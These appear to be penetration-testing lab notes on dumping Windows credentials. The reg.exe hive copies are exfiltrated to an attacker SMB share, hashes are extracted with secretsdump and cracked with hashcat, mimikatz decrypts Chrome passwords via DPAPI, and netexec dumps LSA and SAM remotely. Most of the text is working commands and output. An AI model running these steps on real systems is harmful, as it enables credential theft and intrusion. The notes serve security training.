 ## Registry hives

There are three registry hives we can copy if we have local administrative access to a target system, each serving a specific purpose when it comes to dumping and cracking password hashes. A brief description of each is provided in the table below:

|Registry Hive|Description|
|---|---|
|`HKLM\SAM`|Contains password hashes for local user accounts. These hashes can be extracted and cracked to reveal plaintext passwords.|
|`HKLM\SYSTEM`|Stores the system boot key, which is used to encrypt the SAM database. This key is required to decrypt the hashes.|
|`HKLM\SECURITY`|Contains sensitive information used by the Local Security Authority (LSA), including cached domain credentials (DCC2), cleartext passwords, DPAPI keys, and more.|

#### Using reg.exe to copy registry hives

```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

#### Creating a share with smbserver

```shell
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

Once the share is running on our attack host, we can use the `move` command on the Windows target to transfer the hive copies to the share.

##### Moving Hive copies to share

```cmd
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

## Dumping hashes with secretsdump

```shell-session
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

the first step `secretsdump` performs is retrieving the `system bootkey` before proceeding to dump the `local SAM hashes`. This is necessary because the bootkey is used to encrypt and decrypt the SAM database. Without it, the hashes cannot be decrypted — which is why having copies of the relevant registry hives  is crucial.


## Cracking hashes with Hashcat

```shell-session
sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
6f8c3f4d3869a10f3b4f0522f537fd33
184ecdda8cf1dd238d438c4aea4d560d
f7eb9c06fafaa23c4bcf22ba6781c1e2
```


#### Running Hashcat against NT hashes

```shell
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```


## DCC2 hashes

As mentioned previously, `hklm\security` contains cached domain logon information, specifically in the form of DCC2 hashes. These are local, hashed copies of network credential hashes. An example is:


```
inlanefreight.local/Administrator:$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25
```

This type of hash is much more difficult to crack than an NT hash
it cannot be used for lateral movement with techniques like Pass-the-Hash

```shell 
 hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
```

## DPAPI

The Data Protection Application Programming Interface, or [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection), is a set of APIs in Windows operating systems used to encrypt and decrypt data blobs on a per-user basis. These blobs are utilized by various Windows OS features and third-party applications. Below are just a few examples of applications that use DPAPI and how they use it:

|Applications|Use of DPAPI|
|---|---|
|`Internet Explorer`|Password form auto-completion data (username and password for saved sites).|
|`Google Chrome`|Password form auto-completion data (username and password for saved sites).|
|`Outlook`|Passwords for email accounts.|
|`Remote Desktop Connection`|Saved credentials for connections to remote machines.|
|`Credential Manager`|Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.|

DPAPI encrypted credentials can be decrypted manually with tools like Impacket's [dpapi](https://github.com/fortra/impacket/blob/master/examples/dpapi.py), [mimikatz](https://github.com/gentilkiwi/mimikatz), or remotely with [DonPAPI](https://github.com/login-securite/DonPAPI).


```cmd-session
C:\Users\Public> mimikatz.exe
mimikatz # dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
> Encrypted Key found in local state file
> Encrypted Key seems to be protected by DPAPI
 * using CryptUnprotectData API
> AES Key is: efefdb353f36e6a9b7a7552cc421393daf867ac28d544e4f6f157e0a698e343c

URL     : http://10.10.14.94/ ( http://10.10.14.94/login.html )
Username: bob
 * using BCrypt with AES-256-GCM
Password: April2025!
```


## Remote dumping & LSA secrets considerations

With access to credentials that have `local administrator privileges`, it is also possible to target LSA secrets over the network.

#### Dumping LSA secrets remotely

```shell
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

#### Dumping SAM Remotely

```shell
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

